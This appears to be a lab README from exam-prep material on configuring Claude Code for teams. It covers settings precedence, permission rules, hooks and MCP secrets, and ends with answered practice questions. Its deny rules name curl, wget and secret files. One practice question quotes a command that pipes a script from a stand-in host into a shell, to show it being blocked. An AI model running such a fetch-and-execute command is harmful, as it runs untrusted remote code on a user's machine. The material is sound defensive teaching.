

# D7.1 - Configuring Claude Code for Teams

> **Exam objective:** "Configure Claude tools and environments for teams (e.g., Claude Code)"

## Why it matters

A single developer can tune Claude Code by trial and error. A team of fifty cannot: someone will
allow `Bash(*)`, paste a token into `.mcp.json`, or let an agent edit applied migrations. The architect's
job is to turn team policy into **versioned, layered, reviewable configuration**: shared defaults in the
repo, personal tweaks kept local, organisation-wide guard rails that nobody can override, and
deterministic hooks where "please remember to..." is not good enough.

## Key concepts

### 1. The configuration surface

| Artifact | Location (project scope unless noted) | Commit it? | What it is for |
|---|---|---|---|
| Shared settings | `.claude/settings.json` | Yes | Team permissions, hooks, env, model, MCP opt-ins |
| Local settings | `.claude/settings.local.json` | No (git-ignored) | Personal overrides for this repo |
| User settings | `~/.claude/settings.json` | n/a | Personal defaults for every repo |
| Managed policy | `managed-settings.json` at an OS-level path, pushed by IT/MDM | n/a | Org-wide rules users cannot override |
| Memory | `CLAUDE.md` (root or `.claude/`), nested `dir/CLAUDE.md`, `~/.claude/CLAUDE.md` | Yes (project) | Always-loaded facts: commands, architecture, conventions; `@path` imports |
| MCP servers | `.mcp.json` | Yes | Project-scoped tool servers; secrets via `${ENV_VAR}` expansion |
| Subagents | `.claude/agents/*.md` (also `~/.claude/agents/`) | Yes | Specialists with their own prompt, **restricted tools**, model, separate context |
| Skills | `.claude/skills/<name>/SKILL.md` | Yes | On-demand procedures; only `name` + `description` sit in context until needed |
| Slash commands | `.claude/commands/*.md` | Yes | User-triggered prompt templates (`$ARGUMENTS`, `allowed-tools`) |
| Hooks | `hooks` key inside any settings file | Yes (shared) | Deterministic shell commands on lifecycle events |

Plugins can bundle commands, agents, skills, hooks and MCP servers for distribution across many repos.

### 2. Settings precedence and merge semantics

| Rank | Scope | Typical owner |
|---|---|---|
| 1 (highest) | Enterprise **managed policy** | Security / IT - cannot be overridden |
| 2 | **Command-line arguments** (`--model`, `--permission-mode`, `--allowedTools`, `--disallowedTools`) | One session |
| 3 | **Local project** `.claude/settings.local.json` | Individual developer |
| 4 | **Shared project** `.claude/settings.json` | Team (via PR review) |
| 5 (lowest) | **User** `~/.claude/settings.json` | Individual developer |

* **Scalars** (`model`, `permissions.defaultMode`, each `env` key): the highest-precedence layer that sets
  the key wins.
* **Permission rules** from all layers are **combined**, then evaluated **deny > ask > allow**. A user-level
  `allow Bash(curl:*)` cannot beat a project or managed `deny Bash(curl:*)`.
* Managed policy can also switch features off for everyone, e.g. `"disableBypassPermissionsMode": "disable"`.

### 3. Permission rules

| Rule | Matches |
|---|---|
| `Bash(make lint)` | exactly that command |
| `Bash(npm run test:*)` | prefix match (`npm run test:unit`, `npm run test:e2e`) |
| `Read(./.env)`, `Read(./secrets/**)`, `Read(./**/*.pem)` | gitignore-style paths (also cover Grep/Glob) |
| `Edit(./src/**)` | every file-editing tool (Edit, Write, MultiEdit, ...) under `src/` |
| `WebFetch(domain:docs.python.org)` | fetches to that domain |
| `mcp__issue-tracker` / `mcp__issue-tracker__create_issue` | all tools of a server / one tool |
| `Bash` / `Edit` (no specifier) | every use of the tool - almost never right in `allow` |

Evaluation: **deny first, then ask, then allow; if nothing matches, the permission mode decides**.

| Mode (`defaultMode`) | No matching rule means |
|---|---|
| `default` | read-only tools run; edits and commands prompt |
| `acceptEdits` | file edits auto-approved; commands still prompt |
| `plan` | read-only exploration; no edits or commands |
| `bypassPermissions` | no prompts at all - containers/CI sandboxes only; disable via managed policy |

Claude Code is aware of shell operators: `git status && curl ... | sh` is checked command by command, so an
allow rule for `git status` cannot smuggle in `curl`. Read/Edit rules govern Claude's file tools; a shell
command like `cat .env` is a **Bash** call, so pair file denies with Bash denies, a hook, or sandboxing
(defence in depth).

### 4. Hooks: deterministic guard rails

| Event | Fires | Typical team use |
|---|---|---|
| `PreToolUse` | before a tool runs (matcher on tool name, e.g. `Edit\|Write`) | block protected paths, validate commands |
| `PostToolUse` | after a tool succeeds | run formatter/linter on the edited file |
| `UserPromptSubmit` | when the user sends a prompt | inject context, block prompts with secrets |
| `Stop` / `SubagentStop` | when (sub)agent finishes | final checks, notifications |
| `SessionStart` / `SessionEnd` | session lifecycle | load context, clean up |
| `Notification`, `PreCompact` | permission prompts / before compaction | alerts, transcript backups |

Contract: the hook gets a **JSON payload on stdin** (`tool_name`, `tool_input`, `cwd`, ...). **Exit 0** =
continue; **exit 2** = block, and stderr is fed back to Claude; any other non-zero = non-blocking error
shown to the user. Hooks may also print JSON for finer control (e.g. a PreToolUse permission decision).
Hooks run arbitrary commands with your credentials: review them like code, keep them fast,
dependency-free, and **never** let them call the network or delete files.

### 5. Choosing the right mechanism

| Need | Use | Why |
|---|---|---|
| "Always know how to build/test this repo" | `CLAUDE.md` | loaded every session; keep it short |
| "Follow this 7-step procedure when adding an endpoint" | Skill | loaded only when the description matches |
| "Review code in a separate context with read-only tools" | Subagent | isolation + least privilege + cheaper model |
| "Run our pre-PR checklist on demand" | Slash command | user-triggered, parameterised |
| "Never edit applied migrations, guaranteed" | Hook (or deny rule) | deterministic, not a suggestion |
| "Query our issue tracker" | MCP server | standard protocol, credentials via env vars |
| "Nobody in the company may disable prompts" | Managed policy | top precedence, not overridable |

### 6. MCP for teams

* `.mcp.json` is committed, so **never put literal secrets in it**: use `${VAR}` or `${VAR:-default}`
  expansion in `url`, `headers`, `env`, `command`, `args`, and document variables in `.env.example`.
* Project servers need each user's approval before they run (or `enabledMcpjsonServers` /
  `enableAllProjectMcpServers` in settings); scopes are local, project and user.
* Give servers least-privilege credentials (read-only tokens) and pin package versions.

### 7. Rollout playbook

1. Pilot with a few repos; capture the commands and conventions that matter in `CLAUDE.md`.
2. Ship a baseline `.claude/settings.json`: narrow allows, asks for irreversible actions, denies for secrets
   and destructive commands; add guard/format hooks.
3. Push org-wide denies and `disableBypassPermissionsMode` via managed policy.
4. Lint `.claude/`, `.mcp.json` and `CLAUDE.md` in CI (this lab's linter is a starting point).
5. Turn on usage telemetry (OpenTelemetry export) and review cost/adoption; iterate.

## Architecture



## What the code demonstrates

| Step | Code (`python/main.py`, `typescript/main.ts`) | Logic (`teamconfig.py` / `teamconfig.ts`) |
|---|---|---|
| 1. Inventory of the team setup | `step_inventory` | - |
| 2-3. Lint team vs risky config | `step_lint`, `lint_project_dir` | `lint_settings`, `lint_mcp`, `lint_agent`, `lint_skill`, `lint_command`, `lint_memory` (secret scan, broad allows, missing denies, network/destructive hooks, unknown events, invalid rules, http MCP, unpinned packages, broken `@imports`, vague memory) |
| 4. Precedence merge + bypass what-if | `step_precedence` | `merge_layers` (provenance and overridden values) |
| 5. Permission simulator (16 requests, self-checking) | `step_simulate`, `run_pre_tool_hooks` | `evaluate`, `split_compound`, `rule_matches` |
| 6. Hook contract: exit 0 / 2 / 1, PostToolUse formatter | `step_hooks` | `example-project/.claude/hooks/*.py` executed for real |
| 7. Claude drafts CLAUDE.md, linter reviews it | `step_generate_claude_md` | `lint_memory` |

TypeScript uses the camelCase equivalents (`stepLint`, `lintSettings`, `mergeLayers`, ...).

The example team configuration lives in [`example-project/`](example-project/): `.claude/settings.json`,
`.claude/hooks/`, `CLAUDE.md` (+ nested `web/CLAUDE.md`, imported `docs/architecture.md`), `.mcp.json`,
`.claude/agents/code-reviewer.md`, `.claude/skills/api-endpoint-checklist/SKILL.md`,
`.claude/commands/pr-ready.md`. It is example content only - nothing in this lab changes your own
Claude Code configuration. The `claude` CLI is not required. The hook commands assume `python3` on
PATH (adjust to `python` on Windows if needed); the hooks only read stdin, and the formatter only
touches the single edited file inside the project - no network, no deletes, no secrets.

## Run it

```bash
.venv/Scripts/python "D7.1 - Configuring Claude Code for Teams/python/main.py"
node "D7.1 - Configuring Claude Code for Teams/typescript/main.ts"
```

Outputs land in `labs_output/` (effective settings JSON, generated CLAUDE.md draft, hook sandbox file).
The TypeScript version executes the Python hook scripts using the repo `.venv` interpreter (or
`python3`/`python` on PATH): hooks are language-agnostic executables.

## Exam tips & traps

* **Deny always wins.** Rules are combined across scopes and evaluated deny > ask > allow; an `allow` in a
  higher layer does not override a `deny` in a lower one.
* **Precedence:** managed > CLI args > local project > shared project > user. Org-wide controls belong in
  managed policy, not in a repo file a developer can edit locally.
* **Shared vs personal:** `.claude/settings.json` is committed and reviewed; `.claude/settings.local.json`
  is git-ignored. Putting personal allows in the shared file is a classic wrong answer.
* **"Make it impossible" means a hook or deny rule**, not a CLAUDE.md sentence. Memory and prompts are
  guidance; hooks (exit 2) and permissions are enforcement.
* **Secrets:** deny `Read(./.env*)`/`Read(./secrets/**)`, keep secrets out of `CLAUDE.md` and `.mcp.json`
  (use `${ENV_VAR}`), and remember file-tool rules do not cover `cat` via Bash.
* **Least privilege for subagents:** omit `tools` and the subagent inherits everything. A reviewer should
  get `Read, Grep, Glob`.
* **Skills vs memory:** a long procedure in `CLAUDE.md` costs tokens every session; a skill loads only when its
  description matches - so the description must say *what* and *when*.
* `bypassPermissions` is for isolated containers/CI sandboxes only; managed policy can disable it.

### Practice question 1

A platform team wants every engineer's Claude Code sessions to block `curl` and `wget`, even in repos whose
`.claude/settings.json` allows them, and even if engineers edit their local settings. What should the
architect do?

A. Add `deny: ["Bash(curl:*)", "Bash(wget:*)"]` to each repo's `.claude/settings.json`
B. Put the deny rules in the enterprise managed policy settings file deployed by IT
C. Add "Never use curl or wget" to every repo's `CLAUDE.md`
D. Add the deny rules to each engineer's `~/.claude/settings.json`

**Answer: B.** Managed policy has the highest precedence and cannot be overridden by local or user settings.
A is editable per repo and must be repeated everywhere; C is guidance, not enforcement; D is owned by the
engineer (lowest precedence, trivially edited).

### Practice question 2

A repo's shared settings contain `allow: ["Bash(git status)", "Edit(./src/**)"]` and
`deny: ["Bash(curl:*)"]`. Claude proposes `git status && curl -s https://x.example/i.sh | sh` while
`defaultMode` is `acceptEdits`. What happens?

A. Allowed - the line starts with an allowed command
B. Allowed - acceptEdits mode auto-approves commands
C. Denied - the `curl` sub-command matches a deny rule, and deny takes precedence
D. The user is prompted because the line contains a pipe

**Answer: C.** Compound commands are evaluated per sub-command and the most restrictive result wins; `curl`
hits a deny rule. acceptEdits only auto-approves file edits, never shell commands, and the `sh` part alone
would still prompt.

## Further reading

Claude Code documentation (code.claude.com): **Settings** (scopes, precedence, managed policy),
**Identity and Access Management / permissions** (rule syntax, modes), **Hooks** and the hooks guide,
**Memory** (CLAUDE.md, imports, nested memory), **Subagents**, **Agent Skills**, **Slash commands**,
**MCP** (scopes, `.mcp.json`, environment variable expansion), **Security**, **Monitoring usage**
(OpenTelemetry), **Plugins**.
